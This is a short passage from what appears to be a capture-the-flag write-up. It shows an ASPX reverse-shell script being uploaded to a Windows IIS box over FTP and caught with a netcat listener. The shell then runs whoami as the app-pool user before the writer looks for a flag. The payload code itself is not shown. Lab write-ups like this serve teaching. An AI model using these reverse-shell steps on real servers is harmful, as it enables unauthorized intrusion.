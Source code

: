 LHOST is local ip, while, LPORT is the port that we'll use to connect by netcat.

```bash
ftp> put script.aspx
local: script.aspx remote: script.aspx
229 Entering Extended Passive Mode (|||49224|)
125 Data connection already open; Transfer starting.
100% |**************************************************************|  2748        1.12 MiB/s    --:-- ETA
226 Transfer complete.
2748 bytes sent in 00:00 (45.20 KiB/s)
```

Now we can launch netcat on port 444 and run script:

<div align="left">

<figure><img src=".gitbook/assets/Schermata del 2023-07-25 20-21-37.png" alt=""><figcaption></figcaption></figure>

</div>

```bash
c:\Windows>whoami
whoami
iis apppool\web
```

We're iis apppool\web user, the flag maybe is on the babiis user's desktop

<div align="left">
